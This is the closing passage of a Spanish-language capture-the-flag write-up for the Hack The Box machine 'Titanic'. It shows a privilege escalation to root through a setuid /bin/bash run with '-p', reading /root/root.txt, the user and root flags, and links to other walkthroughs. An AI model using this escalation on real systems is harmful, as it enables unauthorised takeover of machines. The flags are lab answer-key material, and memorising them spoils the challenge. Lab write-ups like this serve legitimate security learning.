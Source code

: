 ![Captura Permisos /bin/bash](../capturas/titanic/captura_bin_bash.png)

Ya podemos escalar privilegios con este archivo y hacernos root. 
```
developer@titanic:/opt/app/static/assets/images$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# 
```

Con esto ya hemos resuelto la máquina y solo nos queda encontrar la **flag de root**, que se encuentra en /root/root.txt. 
```
bash-5.1# ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log

bash-5.1# cd /root/

bash-5.1# ls
cleanup.sh  images  revert.sh  root.txt  snap

bash-5.1# cat root.txt 
962f1d116e1460510dddf33a24a475a6
```


## FLAGS

- **Flag de usuario:** b12d7bc5fe9f355b0910a94e94be1579
- **Flag de root:** 962f1d116e1460510dddf33a24a475a6

<br>

>Añadir que, como principiante, esta  parte de escalar privilegios me fue de gran dificultad y tuve que apoyarme de las siguientes resoluciones online: <br>
https://xhuntr3ss.gitbook.io/xhuntr3sss-hack-vault/usd-vault/vaultusd-walkthroughs/htb-titanic#privilege-escalation <br>
https://youtu.be/tlL94A19EmE?si=dy0R_hStZP89OqFX <br>
https://albertoestrada.es/hacking/write-up/hack-the-box/titanic/